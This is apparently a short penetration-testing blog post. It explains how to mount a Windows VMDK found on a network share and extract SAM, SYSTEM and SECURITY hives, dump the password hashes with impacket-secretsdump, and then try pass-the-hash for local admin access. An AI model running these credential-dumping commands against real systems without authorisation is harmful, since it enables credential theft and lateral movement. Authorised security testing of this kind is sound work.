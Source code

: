 ```yaml
---
published: true
title: Extract SAM Hashes from VMDK File
---
```


On your internal pentest you managed to find a Windows vm while searching network shares as a low privilged user. If you can extract the SAM hashes from the virtual machine, you may be able to pass the hash and gain local admin access to some systems.

```
sudo apt-get install libguestfs-tools
sudo mkdir /mnt/Win7
sudo guestmount -i -r /mnt/Win7 -a ./Windows\ 7-0.vmdk
sudo cp /mnt/Win7/Windows/System32/config/SAM .
sudo cp /mnt/Win7/Windows/System32/config/SYSTEM .
sudo cp /mnt/Win7/Windows/System32/config/SECURITY .
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
sudo guestunmount /mnt/Win7
```

If guestmount gives you a lot of output, you're probably mounting a split disk and you've chosen the wrong vmdk. In this case, the first was named “Windows 7.vmdk”, the second disk was “Windows 7-0.vmdk”.
